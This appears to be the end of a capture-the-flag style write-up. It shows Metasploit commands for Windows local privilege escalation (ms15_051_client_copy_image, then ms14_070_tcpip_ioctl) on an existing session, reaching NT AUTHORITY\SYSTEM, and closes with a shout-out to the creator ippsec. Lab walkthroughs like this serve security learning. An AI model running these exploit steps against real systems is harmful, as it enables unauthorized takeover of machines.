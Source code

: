 ![](https://paper-attachments.dropbox.com/s_BBEBF86C37351892826D68F25743BDBE3366E0493B005B009C8DF7423AA48717_1557303666397_image.png)

*and after re ran with the correct interface we have a successful privesc. It says to us “getuid” to see our level but in the int rum moving to another exploit ms15_0511_client_copy_image* 
    user exploit/windows/local/ms15_051_client_copy_image
    set LHOST tun0
    set LHOST tun0
    set SESSION 1
    run

![](https://paper-attachments.dropbox.com/s_BBEBF86C37351892826D68F25743BDBE3366E0493B005B009C8DF7423AA48717_1557304625128_image.png)

*error occured and didn’t seem like the exploit attached to the session correctly.*

# Root&Loot
attempt different exploit “ms14_070_tcpip_ioctrl”
    use exploit/windows/local/ms14_070_tcpip_ioctl
    set SESSION 1
    set LHOST tun0
    set LHOST tun0
    run

![](https://paper-attachments.dropbox.com/s_BBEBF86C37351892826D68F25743BDBE3366E0493B005B009C8DF7423AA48717_1557304781766_image.png)

achieved NT AUTHORITY\SYSTEM

#HAILippsec

----------

If you don’t know who ippsec is check him out at:

Youtube: https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA 
Twitter: https://twitter.com/ippsec
